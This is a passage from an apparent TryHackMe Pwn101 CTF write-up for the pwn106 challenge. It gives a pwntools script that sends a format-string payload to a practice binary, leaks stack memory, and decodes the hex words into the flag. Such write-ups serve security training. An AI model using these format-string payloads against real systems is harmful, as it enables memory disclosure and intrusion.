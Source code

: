 Some brute force actions we found right order of hex codes and reverse unhexed values and get the flag.

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn106user.pwn106-user'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)

payload = b"%6$lX.%7$lX.%8$lX.%9$lX.%10$lX.%11$lX"

io = start()
io.recv()
io.recv()
io.sendline(payload)
output = io.recv().strip().split(b" ")[1].split(b".")
flag = ""
for word in output:
    decoded = unhex(word.decode("utf-8"))
    reverse_decoded = decoded[::-1]
    print(str(reverse_decoded.decode("utf-8")), end ="")
```

![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%2028.png)

## Challenge 7 - pwn107

